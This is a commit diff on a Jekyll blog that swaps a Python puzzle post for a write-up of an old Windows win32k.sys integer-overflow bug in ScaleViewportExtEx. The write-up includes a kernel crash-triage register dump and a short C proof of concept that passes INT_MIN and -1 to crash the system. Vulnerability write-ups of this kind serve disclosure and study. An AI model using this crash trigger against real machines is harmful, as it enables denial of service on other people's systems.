

Before and after one commit to FazliMolaJan/nafiez.github.io, a Jekyll site: the page built from _posts/2016-06-11-find-the-number-of-even-digits-in-the-given-integer-cf.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Update 2016-06-11-find-the-number-of-even-digits-in-the-given-integer-cf.md

````diff
--- a/_posts/2016-06-11-find-the-number-of-even-digits-in-the-given-integer-cf.md
+++ b/_posts/2016-06-11-find-the-number-of-even-digits-in-the-given-integer-cf.md
@@ -1,44 +1,80 @@
 ---
 layout: post
-title:  "Find the number of even digits in the given integer [CF]"
-date:   2016-06-11 03:39:03 +0700
-categories: [python, codefights]
+title:  "Microsoft Windows Kernel - Win32k.sys Integer Overflow"
+date:   2018-09-19 03:39:03 +0700
+categories: [security, integer]
 ---
 
-Find the number of even digits in the given integer.
+Description
+-----------
+Few years back I found an integer overflow in kernel (win32k.sys), should be around 2013. It was inspiration to Taviso's blog
+(he was targeting different API, https://gist.github.com/taviso/4658638). AFAIK, this bug has been fixed few months after I discovered
+it. The vulnerability could be reported by someone before me.
 
-**Example**
+Vulnerability Analysis
+----------------------
+The bug actually was part of **Coordinate Spaces & Transformations** API. Example used of coordinate spaces & transformations,
+ ```
+  - Scale
+  - Rotate
+  - Translate
+  - Shear
+  - Reflect Graphics output
+```
+This is like we can see daily if used computer. **Coordinate Spaces** act as planar space that locates 2-dimensional objects, example: client area, desktop, page of printer paper. While **Transformations** is a algorithm alters size, orientation and shape of objects, example: Screen, printer. In Taviso blog, he found that the API **ScaleWindowExtEx** was vulnerable to integer overflow.
 
-* For `n = 1010`, the output should be `numberOfEvenDigits(n) = 2`.
-* For `n = 123`, the output should be `numberOfEvenDigits(n) = 1`.
-
-**Input/Output**
-
-* [time limit] 4000ms (py)
-* [input] integer n (A positive integer).
-
-**_Constraints:_**
-
-* 1 ≤ n ≤ 106.
-
-* **[output] integer**
-
-**My Solution:**
-
-```python
-def numberOfEvenDigits(n):
-    return len(filter(lambda m: m.isdigit() and int(m) % 2 == 0, str(n)))
+I found the similar issue on the API **ScaleViewportExtEx**. The **ScaleViewportExtEx** function modifies the viewport for a device context
+using the ratios formed by the specified multiplicands and divisors. The syntax as in:
+```
+BOOL ScaleViewportExtEx(
+  HDC    hdc,
+  int    xn,
+  int    dx,
+  int    yn,
+  int    yd,
+  LPSIZE lpsz
+);
 ```
 
-**Rests Tests:**
+It appears that there is no further checking after dividing the value. It does not recognize the pattern of **Positive** or **Negative**
+numbers. Signed divide **EDX:EAX** by **[ebp+Xdenom]**, with result stored as:
 
+  ```EAX = High-Level Address, EDX = Integer Overflow```
+
+A little trivia about integer overflow,
 ```
-n: 1010
-Output: 2
+  - Sign of the remainder is always the same as the sign of the dividend.
+  - The absolute value of the remainder is always less than the absolute value of the divisor.
+  - Overflow is indicated with the #DE (divide error) exception rather than with the OF (overflow) flag.
+```
+Crash triage upon run our executable
+```
+ErrCode = 00000000
+eax=80000000 ebx=00000001 ecx=00340910 edx=ffffffff esi=e13ce008 edi=00000000
+eip=bf941b8d esp=f671cd10 ebp=f671cd44 iopl=0         ov up ei ng nz na pe cy
+cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00010286
+win32k!NtGdiScaleViewPortExtEx+0x99:
+bf941b8d f77d10          idiv    eax,dword ptr [ebp+10h] ss:0010:f671cd54=ffffffff
+```
 
-n: 123
-Output: 1
+Crafted Proof-of-Concept as in following:
+```
+#include <windows.h>
+#include <stdio.h>
 
-n: 135
-Output: 0
+int main(int argc, char **argv)
+{
+	LoadLibraryA("user32.dll");
+	LoadLibraryA("gdi32.dll");
+
+	HDC		dev_context;
+	SIZE	Size;
+
+	dev_context = CreateCompatibleDC(NULL);
+	SetLayout(dev_context, LAYOUT_RTL);
+
+	ScaleViewportExtEx(dev_context, INT_MIN, -1, -1, -1, &Size);
+
+	return 0;
+}
 ```
````
